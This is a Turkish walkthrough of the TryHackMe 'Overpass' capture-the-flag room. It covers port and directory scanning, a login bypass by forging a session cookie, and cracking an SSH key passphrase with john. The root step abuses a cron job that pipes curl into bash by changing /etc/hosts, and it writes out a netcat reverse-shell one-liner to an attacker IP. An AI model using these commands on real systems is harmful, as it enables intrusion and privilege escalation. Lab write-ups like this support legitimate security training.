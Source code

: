 ```yaml
---
title: Overpass
date: 2024-03-27 16:00:12 
categories: [TryHackMe]
tags: [Easy]
image: images/overpass.png
---
```

Bir grup meteliksiz Bilgisayar Bilimleri öğrencisi bir şifre yöneticisi oluşturmaya çalıştığında ne olur?


<a href="https://tryhackme.com/r/room/overpass">Overpass</a>

---


### User Flag

nmap komutu:

````console
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.162.238   
````

nmap sonucu:

````console
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 19:47 UTC
Nmap scan report for 10.10.162.238 (10.10.162.238)
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

22 SSH ve 80 HTTP servisleri çalışıyor.


Websitesini ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/1.png?raw=true)


Gobuster ile dizin taraması yapıyorum.

````console
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.162.238 -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.162.238
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

/admin dizininde login paneli var.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/2.png?raw=true)

SQLi işe yaramıyor. /aboutus sayfasındaki isimlerle brute force denedim fakat o da işe yaramadı.


Sayfanın kaynak kodlarını inceledim ve login.js dosyasını buldum.

````
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
````

Bu fonksiyonda, /api/login adresine bir post isteği gönderiliyor ve kimlik bilgileri doğruysa SessionToken adlı bir çerez oluşturuluyor.


SessionToken oluşturdum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/3.png?raw=true)

Saçma bir şekilde işe yaradı.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/4.png?raw=true)

James sürekli şifresini unuttuğu için (aynı ben) SSH key oluşturulmuş. 

Bir dosyaya kaydettim. ssh2john ile hash'ini alıp john ile şifreyi kırdım.

````console
┌──(root㉿kali)-[~/Desktop]
└─# ssh2john rsa > hash            
                                                                                                                                  
┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (rsa)     
1g 0:00:00:00 DONE (2024-05-02 20:05) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
````

SSH ile makineye girebiliriz.

````console
┌──(root㉿kali)-[~/Desktop]
└─# ssh -i rsa james@10.10.162.238                       
Enter passphrase for key 'rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu May  2 20:06:39 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.162.238
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
````

````console
james@overpass-prod:~$ pwd
/home/james
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
````

                      
### Root Flag

Makinede linpeas çalıştırıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/5.png?raw=true)


linpeas sonucunda bir cronjob dosyası olduğunu gördüm.

````console
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
````

buildscript.sh her dakika root yetkisiyle çalışıyor.

Ayrıca etc/hosts dosyasına yazma yetkimiz var.

etc/hosts dosyasını değiştirerek makinenin bana bağlanmasını sağladım, /downloads/src/buildscript.sh dosyası oluşturdum ve içine reverse shell kodu yazdım.

````
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.150 1234 >/tmp/f" > downloads/src/buildscript.sh
````

````
python3 -m http.server 80
````

````
nc -nvlp 1234
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Overpass/images/6.png?raw=true)


